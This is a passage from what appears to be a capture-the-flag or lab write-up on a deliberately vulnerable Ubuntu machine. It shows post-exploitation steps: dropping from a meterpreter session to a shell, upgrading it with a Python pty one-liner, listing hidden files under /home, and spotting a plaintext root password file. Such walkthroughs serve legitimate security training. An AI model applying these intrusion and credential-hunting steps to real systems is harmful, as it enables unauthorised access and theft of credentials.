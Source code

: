 ~~~bash
meterpreter >
~~~
And it worked, I got a meterpreter session. Now it is time to get a shell by just typing **shell** in the CLI and hitting the enter key.
~~~bash
meterpreter > shell
Process 1951 created.
Channel 0 created.
sh: 0: getcwd() failed: No such file or directory
sh: 0: getcwd() failed: No such file or directory
whoami;id;pwd
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~
Since it is an simple shell without any details which I prefer, I decided to upgrade the shell a bit with Python.
~~~bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@ubuntu-extermely-vulnerable-m4ch1ine:$ 

~~~
After upgrading the shell, it was time to enumerate the directories and files within the */home* directory.

~~~bash
www-data@ubuntu-extermely-vulnerable-m4ch1ine:$ ls /home -ahlR
ls /home -ahlR
/home:
total 12K
drwxr-xr-x  3 root     root     4.0K Oct 30  2019 .
drwxr-xr-x 23 root     root     4.0K Oct 30  2019 ..
drwxr-xr-x  3 www-data www-data 4.0K Nov  1  2019 root3r

/home/root3r:
total 40K
drwxr-xr-x 3 www-data www-data 4.0K Nov  1  2019 .
drwxr-xr-x 3 root     root     4.0K Oct 30  2019 ..
-rw-r--r-- 1 www-data www-data  515 Oct 30  2019 .bash_history
-rw-r--r-- 1 www-data www-data  220 Oct 30  2019 .bash_logout
-rw-r--r-- 1 www-data www-data 3.7K Oct 30  2019 .bashrc
drwxr-xr-x 2 www-data www-data 4.0K Oct 30  2019 .cache
-rw-r--r-- 1 www-data www-data   22 Oct 30  2019 .mysql_history
-rw-r--r-- 1 www-data www-data  655 Oct 30  2019 .profile
-rw-r--r-- 1 www-data www-data    8 Oct 31  2019 .root_password_ssh.txt
-rw-r--r-- 1 www-data www-data    0 Oct 30  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root     root        4 Nov  1  2019 test.txt

/home/root3r/.cache:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Oct 30  2019 .
drwxr-xr-x 3 www-data www-data 4.0K Nov  1  2019 ..
-rw-r--r-- 1 www-data www-data    0 Oct 30  2019 motd.legal-displayed
www-data@ubuntu-extermely-vulnerable-m4ch1ine:$ 
~~~
I allways love to execute the **ls -ahlR /home** command, it shows me all direcotries and files, even if they are hidden.
By scrolling thru the results I noticed the following file "**.root_password_ssh.txt**". This sounds very promising to capture a password for the root account.So I decided to tun the **cat** command to see if the file contains a plain text password.
